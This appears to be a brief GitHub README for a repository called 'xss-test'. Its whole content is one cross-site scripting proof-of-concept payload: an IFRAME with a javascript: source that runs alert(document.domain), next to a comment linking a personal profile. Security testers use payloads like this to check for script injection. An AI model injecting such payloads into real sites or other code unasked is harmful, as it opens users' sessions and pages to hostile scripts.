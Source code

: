 # xss-test
xss



```
  
<!--      TEST : https://www.linkedin.com/in/sagaryadav8742/ -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
